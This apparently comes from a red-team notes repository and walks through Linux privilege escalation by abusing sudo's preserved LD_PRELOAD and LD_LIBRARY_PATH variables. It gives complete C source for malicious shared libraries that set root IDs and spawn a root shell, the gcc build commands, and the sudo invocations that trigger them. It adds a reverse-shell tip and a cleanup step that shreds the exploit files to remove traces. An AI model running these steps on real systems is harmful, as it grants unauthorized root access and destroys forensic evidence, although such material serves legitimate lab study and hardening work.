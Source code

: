 # Living off the Land

## 01 - Enumerate

The second vulnerability in particular I would like to demonstrate that's regarding about.

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
                                          
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/sbin/apache2
```

## 02 - Exploit

```
user@debian:~$ cat preload.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0, 0, 0);
        system("/bin/bash -p");
}

user@debian:~$ cat preloadv2.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
}
```

Most probably you'll compile the exploit as a x86-64 (64-bit) architecture. If you're targeting x86 (32-bit) Linux systems then you have to specify the `-m` flag either if it's `-m32` or `-m64`. You'll know right away when using the `file` command to check ELF binary architecture is based off.

```
user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Execute the `LD_PRELOAD` via `sudo` with any of the environment variables that has `(root) NOPASSWD`.

```
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so /usr/bin/vim

user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2

user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff503ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f048506b000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f0484e47000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f0484c0d000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f04849f1000)
        libc.so.6 => /lib/libc.so.6 (0x00007f0484685000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f0484480000)
        librt.so.1 => /lib/librt.so.1 (0x00007f0484278000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f0484041000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f0483e3c000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f0483c14000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0485528000)
```

We know that it's using `libcrypt.so.1 => /lib/libcrypt.so.1` if you don't know what it does do a bit of research with a help of internet and see who you can exploit the `sudo` environment.

```
user@debian:~$ cat > library_path.c << EOF
#include <stdlib.h>
#include <unistd.h>
  
static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
EOF

user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

> [!NOTE]
> Sometimes when you tried to get a reverse shell (e.g., `netcat`) it's best to specify the full path of the binary (e.g., `/usr/bin/netcat`).

Execute the `LD_LIBRARY_PATH` via `sudo` to get root.

```
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
```

## 03 - Cleanup

```
user@debian:~$ rm /tmp/preload.so /tmp/libcrypt.so.1 preload.c library_path.c

user@debian:~$ shred -uzxfvn 5 /tmp/preload.so /tmp/libcrypt.so.1 preload.c library_path.c
```

---
## References

### Hacktricks

- [Hacktricks: Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)

### DMCXBlue

- [DMCXBlue: Dynamic Linker Hijacking](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1574-hijack-execution-flow/dynamic-linker-hijacking)